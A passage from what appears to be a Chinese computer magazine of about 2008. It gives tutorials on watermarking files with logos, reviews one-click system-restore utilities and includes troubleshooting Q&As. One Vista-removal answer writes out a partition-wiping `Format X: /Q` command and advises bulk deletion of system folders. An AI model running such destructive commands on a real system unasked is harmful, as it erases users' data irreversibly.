第二步：导入LOGO文件。在上图左侧点击添加图片的图标，在右下方“选择图片文件”空白栏中通过“...”按钮导入我们前面制作的LOGO文件，然后在左侧的九宫格中点击一下最右下角的小按钮，这样就表示LOGO水印将出现在图片的右下角，并通过“水平偏移”、“垂直偏移”来细调位置，最后拖动“透明度”中的滑块调整到合适的显示状态，点击“保存”图标后完成。

### 2.视频

现在越来越多的手机、数码相机都具有了视频拍摄功能，即使身边没有DV，我们同样可以记录下一闪而过的精彩。而且，随着播客的流行，谁不想到网上来炫一把？但要是我们辛苦拍摄的视频被他人轻松“借用”，肯定十分恼火，为了“版权所有”，请加上LOGO吧，只要借助VidLogo就可以轻松搞定：
第一步：导入视频。从http://www.onlinedown.net/soft/48602.htm下载VidLogo 3.2汉化版，安装后运行程序，从主界面中点击“输入”后面的浏览按钮导入需要添加LOGO的视频文件，这里支持除RM、RMVB格式以外的绝大多数视频格式。
第二步：设置LOGO图片。点击“编辑水印”按钮，在“LOGO编辑”界面的“水印”中分别提供了图像、视频、文字等三种LOGO素材的支持，我们这里选择“图像”并导入先前制作好的LOGO图片（注：请使用JPEG格式），此时它将出现在右侧预览界面中，并且四周提供了可缩放的八个锚点，拖动它们将所选图片调整到合适的尺寸，然后按住鼠标左键将其拖动到合适的位置，接着从界面左侧勾选“透明色”，边预览效果边拖动滑块调整透明度，满意后点击“确定”完成（图5）。
第三步：设置“输出”。VidLogo支持多种输出格式，如果想上传到播客网站，这里可以选择“Windows媒体视频”，可大大缩小视频的体积，然后在“输出”中指定保存位置和文件名（千万不要忘记添加扩展名！），其他保持默认，点击“开始”按钮完成LOGO的添加。

### 3.Word文档

作为一名公司职员，每天都与各种各样的Office系列文档打交道，特别是Word文档，使用频率更是高地惊人，对于添加LOGO的要求都成了必须完成的工作。比如，绝大多数公司都要求Word文档页眉处必须添加本公司的LOGO；如果需要打印文档，必须使用本公司的LOGO作为背景图像，以便于申明版权所有！可怎么才能实现呢？下面以Word2007为例介绍。
方案一：各个页眉有LOGO
运行Word2007，依次点击“插入→页眉→编辑页眉”在页面中插入页眉，接着点击上方的“图片”按钮插入以前制作的LOGO图片，调整尺寸到合适大小；切换到“开始”选项卡，点击“文本左对齐”将其移到最左端，当然也可以根据公司要求放置到指定位置，然后在页眉右侧输入公司名称即可。设置完毕，为了每次编辑文档时都自动添加此页眉，因此将其保存为模板：点击保存图标，在弹出对话框中的“保存类型”中选择“Word模板”，输入文件名即可保存了。以后需要使用时，运行Word后从“新建→我的模板”中双击该模板图标就行了（图6）。

##### 方案二：让LOGO成为背景

运行Word，依次点击“页面布局→水印→自定义水印”，在弹出窗口选中“图片水印”，通过点击“选择图片”按钮导入LOGO图片，点击“应用”按钮即可马上看到效果了。如果认为水印痕迹太浅了，取消“冲蚀”的勾选即可。

效果如图7。



当需要打印时，默认是无法打印水印图片的，必须从“打印”界面中点击左下角的“选项”按钮，在“打印选项”中勾选“打印背景色和图像”就行了。

### 4.PDF文档

由于PDF格式具有极强的平台兼容性，纸版书的质感和阅读效果，可以“逼真”展现原书的原貌等特点，成为网络数字化传播中最受欢迎的理想文档格式。就拿笔者来说，也把辛勤搜集、整理的很多教程、技巧制作成了PDF格式的电子书并与朋友分享，可怎么才能让辛劳的汗水引起他人的重视？没有理由不加入自己的LOGO！

VeryPDF PDF Stamp就是一款可以给PDF文档添加LOGO的软件，即使已经制作好了PDF文档，利用它也可以轻松添加，而不必去重新制作PDF文件！

下载地址：http://www.onlinedown.net/soft/40991.htm。

- 第一步：输入LOGO。
前面我们使用的LOGO都是图片格式，而在PDF中添加LOGO就不能使用图片了，因为那样会挡住一部分文字无法显示，因此只能使用文字LOGO，方法如下：运行VeryPDF PDF Stamp，切换到“文件戳记”选项卡，将下方的文字“文件戳记”修改为“电脑爱好者”字样，而且每个字之间输入一个空格，点击“添加”按钮将其加入到“文件戳记列表”中；接着选中“系统字体”，通过“…”按钮设置文字的字体以及大小，这里建议将字体设置为“72”；勾选“轮廓”，这样可避免LOGO文字本身挡住文章内容；“位置”里选择“页面居中”，“旋转”中输入“45”。

- 第二步：合成。
切换到“PDF文件列表”选项卡，点击“添加PDF文件”按钮导入需要处理的PDF文件，最后点击“戳记”按钮并在弹出对话框中指定保存位置以及文件名即可开始工作，稍等一会儿就能完成，快来看看效果吧（图8）！



### 5.RAR自解压文件带LOGO

很多热心的网友为了与大家分享软件、文档，也为了便于网络传输，一般都使用WinRAR程序进行压缩。考虑到某些用户没有安装WinRAR程序，因此打包成自解压文件，你想没想过将自己的LOGO加入到自解压程序界面中呢？先请看效果（图9）。



是不是很有意思？其实你也可以做到。

- 第一步：制作专用LOGO图片。
由于这里笔者仅是演示，因此没准备更精美的LOGO图案，大家可以使用画图、Photoshop等软件制作一张富有个性的LOGO，但一定要保存成93×302像素的BMP文件。

- 第二步：修改自解压模块。
WinRAR安装文件夹下的Default.sfx文件就是自解压模块，可以用资源编译程序“Resource Hacker”打开，从左侧树状目录中切换并展开“位图”，这样在右侧即可看到默认中的图片了。现在依次点击“操作→替换位图”，通过“打开新位图文件”按钮载入自制的LOGO图片，点击“替换”按钮，最后单击“文件→保存”后退出。

注意：如果你使用Resource Hacker程序打开，但无法看到其中的图片，那说明该自解压模块被压缩了，请使用UPX程序进行解压缩后再进行替换。这里，笔者使用的WinRAR 3.70.2版本是未压缩的。

现在重新创建一个自解压文件再打开看看，已经成功了！

LOGO就是一个可爱的小精灵，它不仅替我们在各种文件中留下自己的痕迹，而且也美化了界面，甚至能淋漓尽致地表现出文件主人的良苦用心，追求精致、崇尚个性的朋友们千万不要放过它，因为我们的口号就是：满盘文件尽带LOGO！

### 傻博士问答：

#### Windows XP用户管理失败

故障现象：在Windows XP操作系统上安装了“魔法超级兔子”软件后，按引导做了一些优化和清理工作。当再进入Windows XP时，就出现了“若要开始请单击你的户名”。可是到处找不到能够单击户名的地方，只有左下角有一个“关机”的按钮。每次开机、重启都如此。

故障分析：按理说“魔法超级兔子”这款软件应该相当成熟，并不会破坏你的系统，造成这一情况的原因很可能是用户在优化过程中误操作，将默认用户登录信息删除。

解决方法：建议用户在“Windows XP登录界面”中按下Ctrl+Alt+Del，以调用用户登录界面。如果你记得用户名以及密码的话，此时应该能够顺利进入。

### 一键恢复其实很简单——五款一键恢复软件使用手册

◆文 / TMG zcy

引言：很多人电脑系统坏掉了之后，总是到处寻找高手进行重装。的确，重装系统是一件比较麻烦的事，对一些新手来说更是很难做到。面对与日俱增的各种病毒、电脑插件，我们防不胜防，新手们也就更是无计可施。重装真的给人们带来了很大的不便。然而，即便是我们重新安装了，很多软件还要再次安装，很多备份信息也都不见了踪影，再加上还要重新下载更新一些应用软件……真是让人叫苦不迭！现在，一键恢复就可以帮上忙了，有了它们，我们不用再费时费力地重装系统，不是高手也一样可以随时维护系统安全。下面就为大家介绍几款实用的一键恢复软件，帮你为电脑保驾护航！

#### 一、影子系统(Power Shadow)2008

- 软件大小: 20.8 MB
- 软件类别: 国产软件/共享版/系统安全
- 软件语言: 简体中文
- 运行环境: Windows 2000/XP/2003
- 推荐指数: ★★★★★
- 推荐感言: 影子的保护下，我们可以轻松应对各种挑战！
- 下载链接: http://www.skycn.com/soft/26702.html

软件简介：“影子系统（Power Shadow）”正如它的名字一样，成为系统的保护伞。它能够生成一个现有操作系统的虚拟影像，使之具有与真实系统完全一样的功能（图1）。通过这个“克隆”出来的系统，用户可以在网上随意地冲浪或者运行任何有危险性的程序，因为一旦你进入到“影子系统”后，你的所有操作都将成为虚拟的部分。当然，在“影子系统”下我们所做的一切事情均是实际被执行的，只不过它不是通过真实操作系统，而是通过一个“克隆”的操作系统来完成。而且，所有的病毒和流氓软件都无法侵害真正的操作系统，因为侵害的只是原来系统的影子而已。同样，如果间谍软件被安装，它们也无法影响到你的真实系统，这样可保证操作系统不会有任何改变。当你退出“影子系统”模式时一切改变将会恢复原样。此外，“影子系统”的应用十分广泛，如果你想安装一个测试软件；如果你计划浏览大量网页又不想被系统一一记录下来；如果面对一封可疑的邮件或者是一个可疑的网站链接而不敢浏览，“影子系统”将是你系统安全的放心选择，有了它，一切不可能都会成为可能。值得一提的是，安装“影子系统”后不会降低电脑的性能，启动“影子系统”也不需要等待太多的时间。它将系统放置于一个“金钟罩”内，进行隔离保护且彻底堵截所有的电脑病毒、流氓软件和人为损害。那么这样的一款软件如何来进行使用呢？

- 第一步：安装
通过以上我们提供的下载地址，用户可以进行下载，然后就可以安装使用了。首先，我们要关闭计算机所有正在运行的程序，运行安装程序。单击“下一步”后阅读详细的协议说明，如果你同意全部陈述内容，就可以选择“我接受协议”，然后再单击“下一步”。最后，单击“安装”按钮，重新启动计算机，然后在出现的界面中单击“完成”按钮，即可完成安装。

- 第二步：使用
安装完成后，再来看一下它的具体使用情况，进入这一虚拟的“影子模式”。当系统启动菜单出现时，通过键盘上的上下键来选择不同的启动项。我们选择“影子模式”后，按“回车”键即可进入影子模式的保护之中。在这里我们可以注意到，对于这一克隆本机硬盘分区的“影子”，还可以分为“单一影子模式”和“完全影子模式”两种。前者仅对系统分区创建“影子”，系统分区内的所有改变均不会储存，而在非系统分区的改变则全部保留。这样的情况比较适合我们一般用户的使用，不影响系统，但又可以正常地存储文件、下载软件等。一般来讲，间谍软件对隐私资料的收集主要就是在主系统分区中进行的，因此你只需要进入单一影子模式，系统保证安全，又同时让非系统分区作为你的数据存储领域。而“完全影子模式”将会把本机内所有硬盘分区都克隆成虚拟的影子。退出完全影子模式后，任何对本机硬盘分区的更改将会全部彻底消失。这样一来，不仅系统不会改变，一些数据等内容都丢失了。这时候，用户只能将有用的文件储存到非保护的闪存或者移动硬盘内。

- 第三步：退出
退出影子模式的方法其实很容易，我们只需要在Power Shadow的主界面内单击“退出”按钮即可。当然，我们也可以通过直接重新启动电脑来退出影子模式。此外，它的“计划任务”功能，也是“影子系统”的一项人性化设计。通过计划任务，我们可以设定“影子系统”在指定时间内的自动启动，还可以在启动系统时设置



#### 二、一键还原精灵 Vista版6.0

- 软件大小：10.58 MB
- 软件类别：国产软件/备份工具
- 软件语言：简体中文
- 运行环境：Windows Vista
- 推荐指数：★★★★
- 推荐感言：功能全面的一键恢复工具
- 下载链接：http://down.zdnet.com.cn/detail/2/11180.shtml

软件简介：“一键还原精灵”是一款系统还原和备份的工具（图2），它安全、快速、保密性强、压缩率高、兼容性好，而且操作容易，即便电脑新手也一样可以使用。



“一键还原精灵”共有个人版、装机版和Vista版三种，这里我们为了照顾到Vista系统的用户特别来介绍最后一种。当然，如果你的系统不是Vista系统的话，相信了解了Vista版的使用方法后，也一定可以对“一键还原精灵”的其它版本应用自如。

这款软件的特点在于它采用Ghost为内核，备份和还原系统十分快捷和稳定，其操作简单，采用一键傻瓜化的操作方式，在选择热键上也十分灵活随意。此外，它的安装和卸载不会令人担忧，因为它不对硬盘分区表进行修改，使用起来十分放心。再者，它完美支持多个分区备份还原及可设置永久还原点、可设置二级密码保护，安全又实用。其智能保护备份镜像文件的功能还可以防止误删及病毒入侵等现象，而且该软件还能够自动地进行备份分区的选择，因此我们不用再担忧空间是否够用了。

那么这款软件到底如何来使用呢？下面我们就来一起看一下：

- 第一步：安装
下载软件后，双击安装文件，按照提示进行安装，完成后重新启动电脑。当然，使用该软件必须具备两个条件：其一：操作系统为Windows Vista；其二：硬盘上必须有两个以上的分区。

值得一提的是：安装“一键还原精灵”后用户不得自行更改硬盘分区的数量，如将现有的三个分区，用一些相关软件改成四个分区，或将硬盘的某个分区隐藏等操作都是不可以的。否则，这些操作都将会导致该软件的失效。当然，如果用户有特定的修改分区的需要的话，就必须首先卸载“一键还原精灵”，然后再进行相关的操作。当然，如果是格式化硬盘上所有分区的话，也是行不通的，同样会导致软件的失效。

此外，如果你的硬盘容量超过137GB，而且安装后“一键还原精灵”无法正常使用的话，用户须启用SATA补丁或进入BIOS将硬盘模式设置成兼容模式——Compatible Mode。

- 第二步：启动
启动软件的常用方法有两种：第一种方法就是启动电脑后，当看到电脑屏幕上出现“Press <F11> to start YJHY, any other key to boot previous MBR”提示时，迅速按下“F11”键即可。

第二种方法则是在正常启动电脑操作后，在开机选择中，通过按上下箭头键，来选择你要启动的操作系统。选中“一键还原精灵”后，按回车键即可进入“一键还原精灵”的主界面。

此处如果遇到不能进入软件主界面的情况，就可以通过单击“开始”→“程序”栏的“一键还原精灵”快捷方式，然后选择“高级选项”，单击进入后再单击“引导方式选择”按钮，于是我们就可以再选择其它引导方式了。

当然，如果还是不能进入界面的话，就要回到“高级选项”界面，然后单击“打补丁”，补丁打好之后再重启电脑重新进入“一键还原精灵”主界面。

- 第三步：设置热键、备份还原
在“一键还原精灵”的主界面中，我们单击“高级选项”，然后在打开的窗口中再单击“热键设置”，然后根据个人习惯设置相应的热键，如将默认的“F11”键改为“F9”键等。

热键设置完毕后，我们随时可以通过按热键进入“一键还原精灵”界面。

这时候，用户只需要单击“备份”按钮即可进行备份。当系统进行完备份后，“一键还原精灵”界面中的“备份”按钮就会自动变成“还原”按钮，这时只需单击这一按钮就可以实现系统的还原了。

此时，如果我们单击“设置”按钮，然后再单击“退出”即可退出“一键还原精灵”。或者，我们也可以通过按“Esc”键或单击主界面右上角的“×”退出。

- 第四步：高级设置
单击主界面中的“设置”→“高级设置”选项。在这里，用户可以进行允许/禁止或还原重新备份、永久还原点创建等操作。

其中，“禁止重新备份”可以禁止用户使用主界面中的“备份系统”按钮，在不创建永久还原点的情况下，它可以保证备份文件的安全。而“永久还原点操作”可以创建一个永久的、设置管理员密码后用户不能更改的还原点备份文件。这与主界面的“备份系统”共同构成了两个备份文件。这里我们建议永久还原点在刚安装好操作系统及常用软件后就创建，且不要重复创建。此外，界面显示“禁用简单模式”按钮时，证明系统正处于一个简单模式的启用状态。开机时选择“一键还原精灵”启动，15秒钟后系统会自动进行系统还原。如果你不想进行自动还原的话，可以在15秒内按“Esc”键取消还原并进入主界面。当然，如果要做到直接进入主界面的话，我们可以在“高级设置”界面中单击“禁用简单模式”就可以了。这样就实现了真正的一键还原。

此外，如果我们单击“DOS工具箱”，就可以帮我们实现在DOS下运行Ghost、DISKGEN、NTFSDOS、SPFDISK等几十种软件，这样一来，就十分便于维护计算机了。而“多分区备份还原”选项则是提供了可备份、还原硬盘上所有分区、可删除分区备份镜像文件的功能。单击进入，在这里一定要注意，如果硬盘上有隐藏分区，则在这个选项看到的分区符号与Windows下的是不一致的，因此用户使用时切勿混淆了盘符，否则将恢复出错。

当我们只能进入“一键还原精灵”而不能进入Vista系统时，需要单击“高级设置”中的“修复Vista启动”选项，对其进行修复。而针对于一些SATA硬盘不能运行Ghost，运行“一键还原精灵”时呈死机状态的情况，我们单击“启用SATA补丁”来完成。启用SATA补丁后用户就可以顺利使用“一键还原精灵”了。

- 第五步：密码安全
“一键还原精灵”有一个安全的密码系统，用户可以设置管理员密码及用户密码。这两个密码的区别在于：如果设置了用户密码的话，在备份、还原系统操作时需要输入该密码。但是，一定要先设置管理员密码之后，用户密码才能设置；而管理员密码则是在单击进入“高级设置”及使用安装程序的“卸载”选项时需要输入的，以保证“一键还原精灵”系统的安全性。管理员密码享有系统控制权，可以代替、更改用户密码。特别适合装机商给客户的电脑设置管理员密码，这样一来，客户就可以在不使用高级设置的情况下也能安全地使用备份、还原系统等功能了，保证系统和永久还原点的安全。

#### 三、雨过天晴电脑保护系统专业版 1.0

- 软件大小：17.2 MB
- 软件类别：国产软件/系统安全
- 软件语言：简体中文
- 运行环境：Windows 9x/ME/2000/XP/Vista
- 推荐指数：★★★★
- 推荐感言：功能强大的恢复高手
- 下载链接：http://www.njanyue.com/down/yuguotianqing070928.exe

软件简介：“雨过天晴电脑保护系统”是一款用于多点还原系统保护和恢复的功能强大的软件（图3），可以将瘫痪的系统快速地恢复到正常工作状态，迅速清除掉电脑中存在的故障。如果是那些损坏和丢失的文件，该软件也可以对其进行恢复。它还可以保护你的电脑免受病毒的侵害。“雨过天晴电脑保护系统”的操作十分简单，可以一键恢复瘫痪的操作系统，很实用。此外，该软件可以进行多进度多点还原的创建，功能强大，最高可以创建1000个进度。而且它在硬盘中不用预留空间就能实现保护系统的目的，硬盘保护、系统还原、系统恢复都手到擒来。

有了这款软件，即便是一些个人用户，在面对电脑故障时也不用再愁眉苦脸了，快速恢复不用重新安装，真的很方便。此外，不论是电脑中出现的软件故障，还是系统速度变慢、程序错误等都能轻松清除。它的一大亮点是：该软件不仅支持系统恢复功能，而且还可以返回到恢复前的状态，这一功能应该说还是比较少见的。再者，它创建进度的速度极快，不论资料多少都不会超过5秒钟就能搞定，其恢复时间也不因恢复资料的多少而有太大的区别，其恢复系统的时间不会超过20秒钟。如此的效率，相信一定会备受广大用户的青睐。

这款软件是如何实现“雨过天晴”的呢？下面我们就来一起看一下：

- 第一步：安装注册
按照以上我们提供的官方下载地址进行下载成功后，双击该安装文件，然后依据提示进行“单操作系统安装”和“全盘保护”选项，然后在出现的窗口中输入产品序列号（试用号098009-366043-500558），单击“下一步”继续完成安装。

- 第二步：创建进度
单击软件主界面的“创建进度”按钮，在出现的界面中键入新建进度名称和新建进度描述，然后单击“创建进度”按钮。
新进度创建成功后，系统会提示你创建成功，然后单击“返回”即可生效。

- 第三步：闪电恢复
同样，首先单击主界面的“闪电恢复”按钮，用户只要选择所需恢复到的系统状态就可以了。
这时候，用户选中某个进度后，再选中“恢复系统前为当前系统创建一个进度”复选框，于是单击“闪电恢复”按钮，系统就会自动将硬盘数据恢复到该进度的状态。同时，由于我们刚刚选中了“恢复系统前为当前系统创建一个进度”的复选框内容，因此系统就不会出现当前进度资料消失的情况。而且，有了这一项操作，恢复系统后如果不满意的话，我们还可以回到当前进度中去。

- 第四步：单个文件恢复
在“高级设置”中，我们还可以进行单个文件的恢复操作。我们在“高级设置”的界面中单击“高级设置”按钮，于是就看到“高级设置”的界面了，用户在左侧的窗格中单击“恢复文件”，程序提供多种搜索文件的方式，通过该选项我们开始搜索需要恢复的文件。然后单击“继续”按钮，进入到下一个界面中。接下来，在打开的界面中选择一个需要恢复文件的进度，随后程序就会在该进度中搜索到指定的文件。选中搜索列表中需要恢复的文件，右击后选择“恢复”命令，随后弹出一个恢复方式选择窗口，在此根据需要选择后单击“确定”即可恢复完成。



#### 四、三茗一键恢复 5.4

- 软件大小：1962 KB
- 软件类别：国产软件/系统安全
- 软件语言：简体中文
- 运行环境：Windows 9x/Me/NT/2000/XP/2003
- 推荐指数：★★★★
- 推荐感言：专业水准的恢复软件
- 下载链接：http://www.onlinedown.net/soft/32707.htm

软件简介：“三茗一键恢复”是西安三茗科技有限责任公司专门针对个人用户需求，最新开发的一款计算机系统恢复类的软件产品。它不依赖于操作系统，在本地硬盘上就能实现系统数据以及CMOS参数的动态保护与恢复。这款软件采用三茗独创的计算机硬盘数据快速保护与恢复专利技术，实现了在不占用硬盘固定空间和不影响系统性能的基础上，全面实现计算机操作系统和BIOS系统的动态监测和保护。此外，这款软件的保存与恢复操作均可在数秒内完成，真正做到瞬间恢复。它还允许用户管理员通过设置密码来进行保护，这样一来，系统的安全性更有保障。

有了这款软件，你的电脑如果由于沾染病毒、失误操作等导致系统崩溃的话，仅需要按下“F9”键，就可以在几秒钟内恢复到系统的保护状态，完全不用大费周折地进行系统的重新安装，彻底解决了在当今恶劣的互联网环境下计算机系统所面临的保护以及修复等问题。

这款软件的使用也很容易，根据我们下面即将要介绍的步骤，所有用户都完全可以轻松学会操作。

- 第一步：安装设置
下载该软件后就要进行安装前的准备了，该软件的运行环境要求很低，只要是处理器达到Pentium 166水平以上，硬盘空间在528MB以上，内存在32MB以上的电脑都没有问题。也就是说，用户不必担心电脑的硬件条件会影响到软件的使用情况。

此外，为了确保软件将要保护的计算机操作系统始终处于一种最佳的运行状态，用户最好在安装本软件前做好一些相应的安装准备工作。即：将计算机中的系统软件部分以及其它预备保护的办公软件等应用程序集中安排在系统分区，如C盘内，而将那些用户有关的数据集中到系统分区以外的其它如D、E、F分区内。经过了如此简单的计算机硬盘规划，就可以使系统恢复操作更有目的性。当然，用户在安装该软件前，最好还要对病毒或插件进行彻底查杀，还可以再优化处理一次系统，如对硬盘进行扫描及碎片整理等。这样，在计算机确保安全的状态下进行软件的安装，系统恢复就更有效了。

##### 第二步：软件启用

电脑重新启动后，系统会直接自动进入到“三茗一键恢复”系统界面，而且此程序会自动对受保护的分区进行扫描。该软件在使用时，其操作方法十分简单，只要重新启动电脑，在计算机启动后自检时，按下“Home”键就可以了。这时候“三茗一键恢复”的DOS界面即可调出，用户操作起来很方便。而且我们可以看到，其程序的DOS界面比较简洁。Windows系统下的窗口界面更是让人找不到踪影。它并没有提供窗口界面，而只是在任务栏中提供了一个启动图标，单击该图标即可打开功能列表。右击图标则可以进行注册、帮助和退出等操作。

##### 第三步：数据保护和恢复功能

“三茗一键恢复”的系统保护功能十分方便，在Windows和DOS下都可以进行数据的保护和恢复。在DOS恢复时，用户通过使用“↑↓”方向键选择到相应的选项上，如我们选择“保护”选项后，按下回车键即可弹出一个保护分区提示对话框，之后程序就会对受保护的分区进行数据扫描。扫描后，电脑自动重启进入系统，此时的该系统就处于一种受保护的状态了。在Windows下保护数据时，用户通过单击“保护/恢复”按钮，然后在弹出的对话框中单击“保护”按钮，这时系统会自动重启，然后进入到DOS界面进行对系统的保护。此外，“三茗一键恢复”的数据恢复和数据保护功能十分相似，我们只需要在程序界面中单击“恢复”选项，系统就会弹出一个恢复对话框，在这里，用户就可以将系统数据恢复到指定的时间点了。这款专业水准的软件功能全面，但是操作上却并不困难，初学者一样可以轻松使用，真的很方便。

#### 五、DOS之家一键GHOST 11.0 Build 070707

| 属性 | 值 |
| --- | --- |
| 软件大小 | 10356 KB |
| 软件类别 | 国产软件/备份工具 |
| 软件语言 | 简体中文 |
| 运行环境 | Win9x/Me/NT/2000/XP/2003 |
| 推荐指数 | ★★★★☆ |
| 推荐感言 | 人性化的高智能Ghost |
| 下载链接 | http://www.onlinedown.net/soft/33492.htm |

软件简介：“一键GHOST”是DOS之家首创的并且是4种版本同步发布的启动软件（图4），它包括硬盘版、光盘版、U盘版和软盘版。针对不同的用户需要，这款软件实现了为用户量身定做。而且，它既可独立使用，又能相互配合。其用法也正如它的名字一样，只需按一个键，就能实现全自动无人值守的操作。此外，作为“一键GHOST”最新版本，11.0 Build 070707解决了XP环境下与卡巴斯基相冲突的问题，并增加或改进了“映像”→“只读/导出/导入/移动/删除”功能，以及DOS环境下的“中文向导”→“删除映像”功能、GRUB4DOS/MSDOS菜单引导项、“引导模式”和“内存模式”部分功能等，功能更加强大。

软件的使用我们要遵循下面的几个步骤：

##### 第一步：安装

我们以硬盘版为例，按照推荐下载地址进行压缩包的下载，完成后，选中压缩包通过右击的方式进行解压，然后双击“一键GHOST硬盘版.exe”文件。单击“下一步”，按照提示进行安装，直到最后单击“完成”就OK了。

##### 第二步：设置选项

单击“开始”→“程序”→“一键GHOST”，然后在出现的界面中单击菜单栏中的“工具”选项中的“设置”，就会出现“一键GHOST设置”对话框，在这里，我们可以进行密码的设置。

密码设置成功后，我们再切换到“引导模式”选项卡中来设置引导模式，用户根据自己的现实情况来选择这四种不同的模式。

通过同样的方法，我们再切换到“内存模式”、“速度模式”等选项卡中，对内存和速度进行相应的设置。为了解决部分DELL电脑出现“no DOS memory”死机或者出现“Press any key”停止等问题，新版本提供了“禁用UMBPCI”模式，解决了以前出现的部分问题。

在进行相应的设置之后，用户需要单击“确定”按钮以实现各部分设置的生效。

##### 第三步：运行

单击“开始”→“程序”→“一键GHOST”，然后就出现了软件的主界面。对于第一次使用该软件的用户来说，还没有进行备份功能的设置。因此我们需要在相对安全的系统状态下进行备份。具体的操作是选中“一键备份C盘”选项，然后单击“备份”按钮即可。

当然，如果是曾经用该软件进行过系统盘备份的话，就可以选中“一键恢复C盘”选项，单击“恢复”按钮就可以了，这时候系统就会恢复到上次备份时的状态。

以上是通过“开始”菜单来运行软件，我们还可以通过开机菜单运行。

软件启动后，系统会自动出现一个红色的界面，以前没有使用过该软件进行系统盘备份的话，系统就会出现这个界面，提示用户进行系统的一键备份。

如果已经存在备份文件的话，软件就会自动弹出一个界面，提示用户进行一键恢复。

##### 第四步：高级功能

在软件的主界面中，我们单击菜单栏中的“映像”选项，就可以看到在它的下拉菜单中有很多其它的功能选项：“打开”、“只读”、“导出”、“导入”、“移动”、“删除”等。

*   “打开”：单击“打开”，我们可以以只读方式打开一键映像，一般用于提取文件；
*   “只读”：“只读”则是给一键映像去掉或加上只读、隐藏等属性，常用于在办公用户与个人用户之间切换；
*   “导出”：“导出”是将一键映像复制（另存）到其它地方，并去掉只读、隐藏等属性，常用于光盘刻录前的准备；
*   “导入”：“导入”是将一键映像复制或移动到文件夹中，并加上只读、隐藏等属性，常用于下载安装万能系统Ghost映像。
*   “移动”和“删除”：“移动”和“删除”则是用于将一键映像移动到其它地方，并去掉只读、隐藏等属性或者将一键映像删除等操作，并不常用。

此外，单击“工具”→“修复”选项，用户就可以看到一个界面，上面提示了一些系统出现的情况，出现至少一种情况的话，用户就要进行修复。操作时，我们只要单击“修复”按钮就可以了，十分简单。

此外，如果遇到不容易解决的问题想发到论坛上向坛友求助的话，我们可以将系统的诊断报告粘贴到论坛上就可以了。诊断报告的索要也十分简单，不必求于他人。我们只需要单击菜单栏“帮助”→“诊断报告”选项就可以了。

这时候，用户只需要单击“粘贴到论坛”就能帮你实现愿望了。当然，我们也可以将其复制到内存或者是保存到硬盘上，都是很容易的。

综述：介绍了以上几款一键恢复的软件以后，相信任何人都可以不必再面对电脑系统崩溃的状况了，我们也不用再麻烦朋友帮忙重装系统了。而且，不论是给系统架起一个“金钟罩”，还是为系统设置多个还原点，都实现了近乎于“傻瓜式”的操作方式，新手们再也不用烦恼了。从此以后，我们争取让重装系统退出历史舞台，这绝不是夸张哦！

### 傻博士问答：卸载Windows Vista的正确方法

故障现象：前不久刚从Windows XP升级到Vista，采用升级安装，并且建立了双启动。但是，由于扫描仪以及打印机都没有For Vista的驱动，现在准备彻底返回到Windows XP。已经尝试卸载Windows Vista，但是不彻底，硬盘上总有很多无用的隐藏目录，而且无法删除，导致系统启动时非常混乱。

故障分析：由于在安装Windows Vista时没有选择保留以前的操作系统，因此无法直接退回到Windows XP，只能选择重新安装Windows XP。当然，最简单彻底的方法就是先把Windows Vista所在分区中所有重要文档备份到其它分区，然后使用光盘进入DOS，将Windows Vista所在分区格式化，具体的命令为`Format X: /Q`（其中X为Windows Vista所在分区的盘符）。

解决方法：首先，请进入另一个操作系统，将Windows Vista系统分区中的相关文件全部删除，例如Build、InstalledRepository、Packages、Program Files、Users、Windows、Wmpub等一股脑儿删除。如果提示某些文件无法删除，不要紧，暂时先跳过就是了。比较好的办法是用DOS盘启动进入纯DOS环境，这样就可以干净快速地删除了。由于Windows Vista安装后自动生成了多重启动菜单，而且是默认的启动项，因此我们还需要对boot.ini文件进行修改，将与Windows Vista相关的内容删除，同时还要调整默认启动的操作系统。重新启动系统，此时应该已经可以正常进入以前的操作系统，但遗憾的是引导过程中看到的仍然是英文界面，该怎么恢复原来的中文界面呢？如果安装Windows Vista前没有备份C盘根目录的相关文件，那么可以借助Windows XP安装光盘重新安装，在文件复制完成后的第一次重启中，请立即中止并重新启动，正常进入操作系统后，将C盘根目录下以“$”开头的文件夹全部删除，再对Boot.ini文件进行一番清理，就可以恢复引导菜单的中文化界面了。完成上述步骤后，就可以将Windows Vista从系统中干干净净的清除出去了。

### 傻博士问答：关闭系统时计算机无响应

故障现象：执行Windows的“关闭计算机”命令之后，长时间处在显示“正在关机”的画面状态中。

故障分析：引发此故障的原因较多，如关闭系统功能所对应的声音文件损坏、快速关机功能存在冲突、电源管理功能存在冲突等。

解决方法：首先通过“控制面板”中的“声音”选项取消“关闭系统”所对应的声音文件，重启计算机后若还没有解决问题则启动系统配置程序，单击“常规”标签中的“高级”按钮，打开“高级疑难解答设置”对话框，复选“禁用快速关机”选项取消系统的快速关机功能。若仍没有解决，则打开“系统属性”设置框，在“设备管理器”选项卡中展开“系统设备”分支，双击“高级电源管理支持”项，打开“高级电源管理支持属性”设置框，复选“常规”标签中的“在此硬件配置文件中禁用”选项，关闭高级电源管理功能。重启计算机，问题一般都会迎刃而解。

### 照片管家揭密照片玩法——六款实用图片处理软件推荐

◆文 / TMG z9pp

旅行完毕，出游归来，诸位朋友一定带回了丰厚的成果——无数美丽的风景照与人物照。还等什么？赶紧晒照片，把成果和老友们分享吧！别急，晒照片可不那么简单。有的照片要修复，有的照片要美化，你总不想拿着红眼、噪点、暗光满片飞的照片秀吧？就是已经接近“完美”的照片，你还不得做些微处理？加个相框，放些特效，制作成精致的电子相册，这样才大功告成。一定有朋友会问，这得多麻烦呀？也不是每款图像处理软件都像Photoshop那样复杂，现在就给你推荐几位小管家——六款实用的图片处理软件，它们为你揭密一些照片玩法，让你将风景照、人物照、证件照通杀，轻轻松松做个人图片展！

#### 一、功能丰富——光影魔术手 nEO iMAGING 0.24 简体中文版

- 软件大小: 4948 KB
- 软件性质: 共享版
- 软件语言: 简体中文
- 适用系统: Windows 9x/ME/NT/2000/XP/2003
- 推荐指数: ★★★★
- 推荐感言: PS弱势群体的福音
- 下载链接: http://gsts.onlinedown.net/down/nEOiMAGING_v024.zip

